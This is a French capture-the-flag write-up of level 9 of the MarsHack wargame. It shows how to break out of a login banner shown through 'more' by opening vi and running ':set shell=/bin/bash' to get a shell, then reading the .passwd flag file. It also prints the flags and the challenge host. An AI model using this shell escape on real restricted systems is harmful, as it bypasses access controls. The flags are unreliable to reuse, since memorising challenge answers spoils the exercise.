 # Write up : Wargames

### Level 9

Consigne :

```
Consignes lvl9 :<br>
Le but de ce challenge est d'obtenir un shell avec l'utilisateur challenge9 en utilisant le binaire autorisé qui est visible via la commande 'sudo -l'.<p>
L'utilisateur suivant est un peu spécial, bien vérifier ce qui se lance lors d'une connexion ssh avant de faire quoi que ce soit.<br>
Il faut lire le fichier dans le homedir de l'utilisateur afin d'obtenir le flag.

Se connecter à l'adresse suivante : <br />
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<FONT COLOR="#ff0000">ssh -p 6666 challenge9@game1.marshack.fr</FONT> <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password : [flag obtenu dans l'épreuve précédente]
```

Connexion

```
ssh -p 6666 challenge9@game1.marshack.fr
password: MARS{9QujEQOSZFrRf2PAhHre9KbUFfvVeox1}
```



Affichage du challenge

```
(int)
__  __                        _    _            _
|  \/  |                 ____ | |  | |          | |
| \  / | __ _ _ __ ___  / __ \| |__| | __ _  ___| | __
| |\/| |/ _` | '__/ __|/ / _` |  __  |/ _` |/ __| |/ /
| |  | | (_| | |  \__ \ | (_| | |  | | (_| | (__|   <
|_|  |_|\__,_|_|  |___/\ \__,_|_|  |_|\__,_|\___|_|\_\
                        \____/

>>>> Et si vous reduisiez la fenêtre !!!
>>>> Danger de more

(int)
```

Le shell de l'utilisateur challenge9 a été remplacé par un binaire qui affiche une large banner puis quitte immédiatement. On est donc déconnecté.

Nouvelle tentative de connexion :

- Reduire la taille de la console : more est utilisé. 

  Il y a une faiblesse relative au binaire 'more' 

- Appuyez sur 'v' (v minuscule).

- Cela nous permet de récupérer un vi



Dans vi tapez les commandes :

```
:set shell=/bin/bash
:shell
```

Vous êtes maintenant connecté.

Affichons le contenu du répertoire .

```bash
challenge9@7051d181892c:~$ ls -al
total 24
drwxr-x--- 1 root challenge9 4096 janv. 26 11:41 .
drwxr-xr-x 1 root root       4096 janv. 26 11:41 ..
-rw-r----- 1 root challenge9 3084 oct.  28 10:10 banner.txt
-rw-r----- 1 root challenge9   39 oct.  30 17:07 .passwd

```

Lecture du fichier .passwd

```
challenge9@7051d181892c:~$ cat .passwd

MARS{PDaJS6MkwQMd5N5o5ILQld0Ue1mxm90T}
```



Résultat : MARS{PDaJS6MkwQMd5N5o5ILQld0Ue1mxm90T}